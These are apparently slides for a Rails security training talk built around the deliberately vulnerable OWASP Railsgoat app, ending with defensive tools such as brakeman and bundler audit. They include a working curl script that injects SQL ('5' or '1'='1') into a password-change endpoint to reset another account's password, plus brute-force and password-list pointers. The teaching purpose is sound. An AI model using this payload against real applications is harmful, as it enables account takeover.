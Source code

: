 
# Rails security in 20 minutes.

Lišák a Vráťa
Railsgrills 3.0 

===

# Introduction

In security - learn by trying it yourself.

- hack yourself
- protect yourself

Programming intentionally vulnerable app - inspired by php DVWA
(Damn Vulnerable Web Application). When done, found Railsgoat :-)

====

# Railsgoat, welcome on stage

Intentionally vulnerable Rails app, maintained under OWASP project.

WTF is OWASP? https://lmddgtfy.net/?q=wtf%20is%20owasp

OWASP Top 10.

- XSS
- SQLi
- CVE through deprecated lib
- insecure uploads (files in public)

===
# Try it yourself

It is best to use some sort of container or virtual machine.

https://github.com/OWASP/railsgoat

Docker: config is in repo, took about 15 minutes on my machine to build, works.
VirtualBox/Vagrant: in resources for this talk, there is vagrant folder
https://github.com/phokz/railsgrills-talk

===

# But wait  ..!?

- I am lazy and do not want to install Docker/Vagrant/WTF shit
- Or I want real blackbox hacking look & feel (looking at log output of docker container makes things way easier).

We prepared live railsgoat for you here:
http://railsgoat.fqdn.cz:3000

## So you can try it NOW. 

There is no excuse.
~~my data plan is not good for downloading virtual images~~
~~you told us docker takes 15 minutes to build, it is AGES~~
~~I do not have laptop with me~~

# HACK NOW

===

## But the app is very vulnerable

- someone foreign might hack it beyond being hackable any more or beyond repair
- so the url is not wide open to the scary internets, you have to knock

``
knock railsgoat.fqdn.cz 1234 2345 3456
``

If you cannot knock, you can go here https://railsgoat.fqdn.cz/ and open firewall using secret code _railsgrills_

===

# Your first task is to log in.

Bruteforce FTW!

There are many tools, but we wrote one specially for this event and for bruteforcing rails app. Old tools do not know about _CSRF token_ :-).

===
# Half of the kingdom for good password list.

Apparently, most search engine results for "top 1000 passwords" goes to fancy html pages.

Good lists are here:
https://github.com/danielmiessler/SecLists/tree/master/Passwords


# We are in - lets look around.

- demo time

# Low hanging fruit.

Those were examples of low hanging fruit. There are more complicated things.

Luckily, there is Perfect Tutorial:

https://github.com/OWASP/railsgoat/wiki/Rails-5-Tutorials

# SQL injection

Badly implemented password change API endpoint. 
Often the first account is admin :-)

```bash
base=http://localhost:3000/
user=jim@metacorp.com
pass=alohaowasp

newpass=Password1

curlcmd='curl -b cookies.txt --cookie-jar cookies.txt'
token=$($curlcmd "${base}"| grep -i token | sed -e 's/^.*value=//' | cut -d '"' -f 2)

$curlcmd -X POST -d "authenticity_token=${token}" -d email=$user \
 -d password=$pass "${base}/sessions"
 
$curlcmd -X POST \
  -d "user[id]=5' or '1'='1" \
  -d user[password]=$newpass \
  -d user[password_confirmation]=$newpass \
  -d _method=put "${base}/users/5.json"
```

===

# demo sqli

- cheat and show log output in console


# Stop hacking now, enter The Blue Team

or

# How can computer help me with rails security?

- a lot.

===

# Tools to cover

- `rubocop` - common "lint" for ruby/rails
- `bundler audit` - checks your dependencies 
- `brakeman`  - check for common vulnerabilities
- `danger`  - insecure files in git - keys, credentials


